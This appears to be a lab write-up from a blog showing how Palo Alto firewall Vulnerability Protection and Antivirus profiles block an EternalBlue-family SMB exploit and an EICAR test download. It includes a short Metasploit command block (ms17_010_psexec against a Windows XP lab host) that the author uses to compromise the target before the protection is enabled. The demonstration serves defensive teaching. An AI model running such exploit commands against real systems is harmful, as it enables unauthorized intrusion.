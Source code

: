 ```yaml
---
title: Palo Alto Security Profiles
date: 2025-07-04 20:30:00 +0700
categories: [Security, Palo Alto]
tags: [Palo Alto]
---
```


Palo Alto Security Profiles are a set of threat prevention features that inspect allowed traffic for malicious activity. They include profiles like Antivirus, Anti-Spyware, Vulnerability Protection, URL Filtering, File Blocking, WildFire Analysis, and DNS Security—each working to detect and block threats such as malware, exploits, and command-and-control communications even after access is granted by the firewall policy.

<br>

# Vulnerability Protection

> **Vulnerability Protection** profile protects against known software vulnerabilities by inspecting traffic for exploit signatures and protocol anomalies. It uses regularly updated threat signatures to block or alert on attempts to exploit system and application weaknesses.

Here we have a Palo Alto Firewall with no security profiles enabled

![x](/static/2025-07-04-palo-ips/01.png)

<br>

We'll launch an attack froom Kali Linux on the Outside Network into a Windows XP host on the Inside using Metasploit

```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.51.0.23
set LHOST 172.17.1.24
exploit
```

![x](/static/2025-07-04-palo-ips/02.png)

<br>

This exploit leverages vulnerability on Windows XP's SMB protocol, and without any Vulnerability Protection we can easily hack the target box

![x](/static/2025-07-04-palo-ips/03.png)

<br>

And looking at the traffic logs, the exploit went through the firewall with no detection at all

![x](/static/2025-07-04-palo-ips/04.png)

<br>

This exploit is documented in 'CVE-2017-0143' and is actually already in the Palo's IPS signature, all we need to do next is enable it.

![x](/static/2025-07-04-palo-ips/03a.png)

<br>

To enable Vulnerability Protection, we need to download latest Apps + Threats Signature from Palo Alto's Portal

![x](/static/2025-07-04-palo-ips/05.png)

<br>

Then upload and install the package into the firewall

![x](/static/2025-07-04-palo-ips/06.png)

<br>

Next we need to enable the Vulnerability Protection Profile, for simplicity we will use the predefined 'strict' profile, which already covers the CVE that we wanted to protect against

![x](/static/2025-07-04-palo-ips/07.png)

<br>

Finally just enable the Profile in the Security Policy

![x](/static/2025-07-04-palo-ips/08.png)

<br>

Now if we launch the attack again, we will get error Connection Reset

![x](/static/2025-07-04-palo-ips/09.png)

<br>

On the Threats Logs, we can see the exploit being detected and blocked by the firewall, completely preventing the attack from taking place

![x](/static/2025-07-04-palo-ips/10.png)

![x](/static/2025-07-04-palo-ips/11.png)

<br>

## Antivirus

> **Antivirus** security profile inspects traffic for known malware—such as viruses, worms, and trojans—by scanning files and content in protocols like HTTP, SMTP, FTP, and SMB. It uses signature-based detection and automatically blocks or logs infected content to prevent malware from entering or spreading within the network.

To simulate a malware download event, we will host an EICAR malware test file on the port 80 on the outside network

![x](/static/2025-07-04-palo-ips/12.png)

<br>

On the client side inside the network, without any Anti Virus protection we can freely access & download this malware

![x](/static/2025-07-04-palo-ips/12a.png)

<br>

Now lets enable Anti Virus, we will use the default profile because it already covers the protocols that we want to test

![x](/static/2025-07-04-palo-ips/13.png)

<br>

Then just enable it on the Security Profile

![x](/static/2025-07-04-palo-ips/14.png)

<br>

Now if we try to download the malware again, we will get a connetion reset preventing it to take place

![x](/static/2025-07-04-palo-ips/15.png)

<br>

On the Threats Logs, the malware is detected as a type of 'virus' and rightfully blocked from traversing into the inside network

![x](/static/2025-07-04-palo-ips/16.png)

![x](/static/2025-07-04-palo-ips/17.png)

<br>









